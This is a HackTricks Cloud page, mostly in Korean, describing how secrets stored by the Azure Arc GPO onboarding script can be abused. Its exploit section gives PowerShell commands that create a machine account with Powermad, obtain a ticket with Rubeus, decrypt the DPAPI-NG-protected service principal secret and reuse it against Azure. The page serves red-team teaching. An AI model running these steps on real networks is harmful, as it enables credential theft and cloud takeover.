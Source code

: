 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc는 그룹 정책 개체 방법을 사용하여 새로운 내부 서버(도메인에 가입된 서버)를 Azure Arc에 통합할 수 있도록 합니다. 이를 위해 Microsoft는 온보딩 절차를 시작하는 데 필요한 배포 툴킷을 제공합니다. ArcEnableServerGroupPolicy.zip 파일 내에는 다음 스크립트가 포함되어 있습니다: DeployGPO.ps1, EnableAzureArc.ps1, 및 AzureArcDeployment.psm1.

DeployGPO.ps1 스크립트를 실행하면 다음 작업이 수행됩니다:

1. 로컬 도메인 내에 Azure Arc Servers Onboarding GPO를 생성합니다.
2. 온보딩 프로세스를 위해 생성된 지정된 네트워크 공유에 EnableAzureArc.ps1 온보딩 스크립트를 복사하며, 이 공유에는 Windows 설치 패키지도 포함되어 있습니다.

이 스크립트를 실행할 때 시스템 관리자는 두 가지 주요 매개변수인 **ServicePrincipalId**와 **ServicePrincipalClientSecret**을 제공해야 합니다. 또한 도메인, 공유를 호스팅하는 서버의 FQDN, 공유 이름과 같은 다른 매개변수도 필요합니다. 테넌트 ID, 리소스 그룹 및 기타 필요한 정보와 같은 추가 세부정보도 스크립트에 제공되어야 합니다.

DPAPI-NG 암호화를 사용하여 지정된 공유의 AzureArcDeploy 디렉토리에 암호화된 비밀이 생성됩니다. 암호화된 비밀은 encryptedServicePrincipalSecret이라는 이름의 파일에 저장됩니다. 이 내용은 DeployGPO.ps1 스크립트에서 확인할 수 있으며, 여기서 ProtectBase64를 호출하여 $descriptor와 $ServicePrincipalSecret을 입력으로 사용하여 암호화가 수행됩니다. descriptor는 도메인 컴퓨터 및 도메인 컨트롤러 그룹 SID로 구성되어 있어, ServicePrincipalSecret은 도메인 컨트롤러 및 도메인 컴퓨터 보안 그룹에 의해서만 복호화될 수 있도록 합니다.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

다음 조건이 있습니다:

1. 내부 네트워크에 성공적으로 침투했습니다.
2. Active Directory 내에서 컴퓨터 계정을 생성하거나 제어할 수 있는 능력이 있습니다.
3. AzureArcDeploy 디렉토리를 포함하는 네트워크 공유를 발견했습니다.

AD 환경 내에서 머신 계정을 얻는 방법은 여러 가지가 있습니다. 가장 일반적인 방법 중 하나는 머신 계정 쿼터를 악용하는 것입니다. 또 다른 방법은 취약한 ACL 또는 다양한 다른 잘못된 구성으로 머신 계정을 손상시키는 것입니다.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
한 번 머신 계정을 얻으면, 이 계정을 사용하여 인증할 수 있습니다. 우리는 netonly 플래그가 있는 runas.exe 명령을 사용하거나 Rubeus.exe로 패스-더-티켓을 사용할 수 있습니다.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
메모리에 저장된 컴퓨터 계정의 TGT를 사용하여 다음 스크립트를 통해 서비스 주체 비밀을 복호화할 수 있습니다.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
대안으로, [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)를 사용할 수 있습니다.

이 시점에서, 암호화된ServicePrincipalSecret 파일과 동일한 네트워크 공유에 저장된 ArcInfo.json 파일에서 Azure에 연결하는 데 필요한 나머지 정보를 수집할 수 있습니다. 이 파일에는 TenantId, servicePrincipalClientId, ResourceGroup 등과 같은 세부 정보가 포함되어 있습니다. 이 정보를 사용하여 Azure CLI를 통해 손상된 서비스 주체로 인증할 수 있습니다.

## References

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
